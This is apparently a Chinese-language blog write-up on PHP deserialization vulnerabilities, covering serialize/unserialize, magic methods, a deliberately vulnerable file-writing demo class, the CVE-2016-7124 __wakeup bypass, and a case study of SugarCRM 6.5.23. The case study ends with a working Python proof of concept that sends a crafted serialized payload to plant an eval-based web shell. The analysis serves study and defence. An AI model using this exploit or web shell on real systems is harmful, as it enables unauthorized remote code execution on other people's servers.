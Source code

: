 ```yaml
---
layout: page
title: PHP deserialization vulnerability analysis
---
```



* Auth：[Cryin'](https://github.com/Cryin/Paper)

### 序列化与反序列化

序列化和反序列化操作会使程序存储或传输PHP 的值或对象更加便利且不丢失其类型和结构。PHP 序列化函数serialize(),其作用是将对象转换为字符串，此字符串包含了表示value 的字节流，可以存储于任何地方；而反序列化函数unserialize(),恰好就是序列化的逆过程,反序列化对单一的已序列化的变量进行操作，将其转换回对象供程序使用。在PHP 序列化及反序列化函数官方介绍中同时也支出，当序列化对象时，PHP 将试图在序列动作之前调用该对象的成员函数__sleep()。如果存在，该方法会先被调用，然后才执行序列化操作。此功能可以用于清理对象，这样就允许对象在被序列化之前做任何清除操作。类似的，当使用unserialize() 恢复对象时， 将调用__wakeup()成员函数。

### 魔术方法
PHP 将所有以__（两个下划线）开头的类方法保留为魔术方法。诸如:

```php
__construct()，
__destruct()，
__call()，
__callStatic()，
__get()，
__set()，
__isset()，
__unset()，
__sleep()，
__wakeup()，
__toString()，
__invoke()，
__set_state()，
__clone()，
__debugInfo()
```

等方法在PHP 中被称为" 魔术方法" （ Magic methods ） 。其中__construct() ，__destruct()分别为构造函数和析构函数，在对象创建和销毁时分别会被自动调用。而正如
上面所说__sleep()及__wakeup()分别会在对象被序列化、反序列化时自动调用。为了更清楚了解序列化、反序列化以及魔术方法的具体作用。看个实例:
```php
<?php
class file {
#private $data="foo\n";
#private $filename = "D:\software\phpStudy\WWW\iast\serialized.txt";
public function __wakeup(){
$this->saveinfo($this->filename,$this->data);
print "__wakeup\r\n";
print '<BR>';
}
function file($in_filename="unnamed",$in_data="file")
{
$this->filename = $in_filename;
$this->data = $in_data;
}
function getname() {
return $this->filename;
}
public function saveinfo($filename,$data) {
file_put_contents($filename,$data);
}
}
$testfile = new file($_GET['filename'],$_GET['data']);
//用serialize 函数将这个实例转化为一个序列化的字符串
$testfiledisc = serialize($testfile);
print $testfiledisc;
print '<BR>';
//在此注销这个类
unset($testfile);
//在这里用unserialize() 还原已经序列化的对象
print "unserialize\r\n";
print '<BR>';
$fileuns = unserialize($testfiledisc);
//此时的$fileuns 已经是前面的$testfile 对象了
$filename = $fileuns->getname();
//这个类此时无需实例化可以继续使用,而且属性和值都是保持在序列化之前的状态
print "The file name is ==> $filename<br>";
print '<BR>';
?>
```
执行上述代码，如图所示: 

![Jietu20181227-221418.jpg](https://i.loli.net/2018/12/27/5c24df773df16.jpg)

### PHP 反序列化漏洞原理

清楚了反序列化及魔术方法，可以了解到，反序列化漏洞利用原理或者说出现该类漏洞需要具备的条件如下:
1、反序列化变量可控；
2、程序上下文已定义类存在__wakeup()等魔术方法；
3、该魔术方法中调用了系统命令执行、文件操作等高危函数且引入了可控反序列化对象的相关属性。

如上面示例代码所示，在file 类中实现了__wakeup 函数并调用了saveinfo 方法，该方法使用file_put_contents 将反序列化后得到的对象的文件名及文件内容属性写如文件。
而filename 及data 变量通过$_GET 获取。这样如果输入形如:
```
unserialize.php?filename=D:\software\phpStudy\WWW\iast\serialized.php&data=
<?php%20phpinfo()?>
```
则可以在程序目录创建serialized.php 文件并写入phpinfo 等执行任意代码。

### 典型案例

SugarCRM 在其<=6.5.23 的版本中存在反序列化漏洞，程序对攻击者恶意构造的序列化数据进行了反序列化的处理，从而使攻击者可以在未授权状态下执行任意代码。这个漏洞可以说是php 反序列化操作的最佳反面教程，讲述了使用反序列化不当，造成可利用魔术方法进行RCE。

漏洞文件service/core/REST/SugarRestSerialize.php 第67 行：

![Jietu20181227-221658.jpg](https://i.loli.net/2018/12/27/5c24df793bf23.jpg)

可以看到rest_data 参数可控，且传入了反序列化函数sugar_unserialize 中。在sugar_unserialize 函数中(include/utils.php 第5039 行开始)，可以看到在反序列化前，对输入参数进行了检查：

![Jietu20181227-221716.jpg](https://i.loli.net/2018/12/27/5c24df777248a.jpg)

该正则检查主要是检测参数是不是序列化后的对象，如：

![Jietu20181227-221732.jpg](https://i.loli.net/2018/12/27/5c24df78027f6.jpg)

然而由于正则不够严谨，我们可以在对象长度前加一个+ 号，即"o:14 -> o:+14"，即可绕过这层检测，从而使得我们可控的数据传入unserialize 函数。序列化参数可控，接下来就是找程序上下文已定义的类中存在可利用的__wakeup 等魔术方法了，在include/SugarCache/SugarCacheFile.php 文件中可以看到__destruct 魔术方
法，且该函数中有文件写入操作。在sugar_file_put_contents 函数中，调用了file_put_contents 函数，且没有对文件名及文件内容进行检查。但是主意到在反序列化函数调用时会先触发__wakeup 函数而后才会调用析构函数__destruct，但在__wakeup 函数中将对象所有属性值都置空了。所以至此虽然反序列化对象可控，但输入的属性却被清空了。但有一个有意思的漏洞CVE-2016-7124,反序列化一个异常对象时会绕过__wakeup 函数执行。就是当序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过__wakeup 的执行。如下代码:

```php
<?php
class test{
var $wakeupbypass;
public function __destruct(){
$this->wakeupbypass = "*__destruct<br />";
echo $this->wakeupbypass;
echo "__destruct OK!<br />";
}
public function __wakeup(){
$this->wakeupbypass = "*__wakeup<br />";
echo $this->wakeupbypass;
echo "__wakeup OK!<br />";
}
}
#$a = new test();
#echo serialize($a);
$payload = 'O:4:"test":1:{s:7:"wakeupbypass";N;}';
$payload1 = 'O:4:"test":2:{s:7:"wakeupbypass";N;}';
#$abc = unserialize($payload);
$abc1 = unserialize($payload1);
?>
```
在浏览器访问该页面可以看到wakeup 并没有执行。
![Jietu20181227-221810.jpg](https://i.loli.net/2018/12/27/5c24df770715b.jpg)

最后，生成序列化的payload，并编写poc 如下:
```python
#!/usr/bin/env python
# encoding:utf-8
import requests
class Sugarcrm():
def poctest(self):
url = 'http://10.65.10.195/sugarcrm_dev-6.5.23/service/v4/rest.php'
data = {
'method': 'login',
'input_type': 'Serialize',
'rest_data':
'O:+14:"SugarCacheFile":23:{S:17:"\\00*\\00_cacheFileName";s:15:"../custom/1.php";S:1
6:"\\00*\\00_cacheChanged";b:1;S:14:"\\00*\\00_localStore";a:1:{i:0;s:29:"&lt;?php
eval($_POST[\'HHH\']); ?&gt;";}}',
}
requests.post(url, data=data)
if __name__ == '__main__':
test = Sugarcrm()
test.poctest()
```
执行脚本可生成shell：http://10.65.10.195/sugarcrm_dev-6.5.23/custom/1.php ，关于典型的PHP 反序列化漏洞还可以参考vBulletin 5、Joomla 的反序列化远程代码执行漏洞。详见参考链接。

### 参考
* [1] http://php.net/manual/zh/function.serialize.php
* [2] http://bobao.360.cn/learning/detail/3193.html
* [3] http://www.freebuf.com/vuls/80293.html
* [4] https://codeload.github.com/sugarcrm/sugarcrm_dev/tar.gz/6.5.23
* [5] http://bobao.360.cn/learning/detail/3020.html
* [6] https://bugs.php.net/bug.php?id=72663
* [7] http://blog.nsfocus.net/vbulletin-5-rce-vulnerability/
